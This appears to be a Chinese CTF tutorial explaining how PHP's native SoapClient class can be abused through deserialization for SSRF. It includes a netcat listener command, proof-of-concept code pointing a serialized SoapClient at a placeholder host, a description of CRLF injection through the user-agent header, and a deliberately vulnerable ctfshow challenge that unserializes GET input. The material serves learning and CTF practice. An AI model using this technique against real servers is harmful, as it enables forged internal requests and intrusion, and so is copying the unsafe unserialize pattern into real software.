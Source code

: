 ### SoapClient介绍

> 综述： 
>
> php在安装php-soap拓展后，可以反序列化原生类SoapClient，来发送http post请求。
>
> 必须调用SoapClient不存在的方法，触发SoapClient的__call魔术方法。
>
> 通过CRLF来添加请求体：SoapClient可以指定请求的user-agent头，通过添加换行符的形式来加入其他请求内容

SoapClient采用了HTTP作为底层通讯协议，XML作为数据传送的格式，其采用了SOAP协议(*SOAP* 是一种简单的基于 XML 的协议,它使应用程序通过 HTTP 来交换信息)，其次我们知道某个实例化的类，如果去调用了一个不存在的函数，会去调用`__call`方法，具体详细的信息大家可以去搜索引擎看看，这里不再赘述

### 利用方式

下面首先在我的VPS上面开启监听`nc -lvvp 9328`

```
<?php
$a = new SoapClient(null,array('uri'=>'bbb', 'location'=>'http://xxxx.xxx.xx:9328'));
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```

运行上面的php程序，在我的vps上面奖会捕获监听

![](php反序列化/6.png)

从上面这张图可以看到，`SOAPAction`处是我们的可控参数，因此我们可以尝试注入我们自己恶意构造的**CRLF**即插入**\r\n**，利用成功！

![](php反序列化/7.png)

但是还有个问题我们再发送POST数据的时候是需要遵循HTTP协议，指定请求头**Content-Type: application/x-www-form-urlencoded**但**Content-Type**在**SOAPAction**的上面，就无法控制**Content-Type**,也就不能控制POST的数据

接下来我们实验一下

![](php反序列化/8.png)

### 实战

反序列化我们传入的**vip**执行getFlag函数(迷惑人的函数)

```php
<?php
highlight_file(__FILE__);
$vip = unserialize($_GET['vip']);
$vip->getFlag();
//flag.php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);
​
​
if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```
